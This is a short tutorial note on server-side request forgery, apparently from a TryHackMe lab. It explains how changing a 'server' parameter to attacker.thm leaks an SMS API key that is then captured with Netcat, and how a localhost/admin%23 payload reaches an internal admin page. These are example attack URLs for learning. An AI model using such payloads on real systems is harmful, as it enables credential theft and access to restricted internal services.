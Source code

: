 # 10. Server-Side Request Forgery (SSRF)

## Server-Side Request Forgery

This type of vulnerability occurs when an attacker can coerce a web application into sending requests on their behalf to arbitrary destinations while having control of the contents of the request itself. SSRF vulnerabilities often arise from implementations where our web application needs to use third-party services.

Think, for example, of a web application that uses an external API to send SMS notifications to its clients. For each email, the website needs to make a web request to the SMS provider's server to send the content of the message to be sent. Since the SMS provider charges per message, they require you to add a secret key, which they pre-assign to you, to each request you make to their API. The API key serves as an authentication token and allows the provider to know to whom to bill each message. The application would work like this:

<figure><img src="https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/271d0075650cdf6499f994f99fa7eb8a.png" alt=""><figcaption></figcaption></figure>

By looking at the diagram above, it is easy to see where the vulnerability lies. The application exposes the `server` parameter to the users, which defines the server name of the SMS service provider. If the attacker wanted, they could simply change the value of the `server` to point to a machine they control, and your web application would happily forward the SMS request to the attacker instead of the SMS provider. As part of the forwarded message, the attacker would obtain the API key, allowing them to use the SMS service to send messages at your expense. To achieve this, the attacker would only need to make the following request to your website:

`https://www.mysite.com/sms?server=attacker.thm&msg=ABC`

This would make the vulnerable web application make a request to:

`https://attacker.thm/api/send?msg=ABC`&#x20;

You could then just capture the contents of the request using Netcat:

<figure><img src="../../.gitbook/assets/image (80).png" alt=""><figcaption></figcaption></figure>

This is a really basic case of SSRF. If this doesn't look that scary, SSRF can actually be used to do much more. In general, depending on the specifics of each scenario, SSRF can be used for:\


* Enumerate internal networks, including IP addresses and ports.
* Abuse trust relationships between servers and gain access to otherwise restricted services.
* Interact with some non-HTTP services to get remote code execution (RCE).

example:

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

in the website the admin page was only accessible from localhost. as you can see we are using ssrf and putting the website's url for that page. the vulnerable server is parsing the value of the server parameter in the SSRF request and using it in a subsequent request to the specified server. By changing the value of the server parameter to localhost:Port/admin%23, the subsequent request is made to the localhost on the specified port, and the admin page is accessed.

The %23 at the end of the URL is URL-encoded #, which is a comment character in URLs. This effectively comments out the \&id=75482342 parameter, which may not be necessary for accessing the admin page.

and we can't remove the \&id=75482342 part of the url becuase that makes our request invalid in the first place.
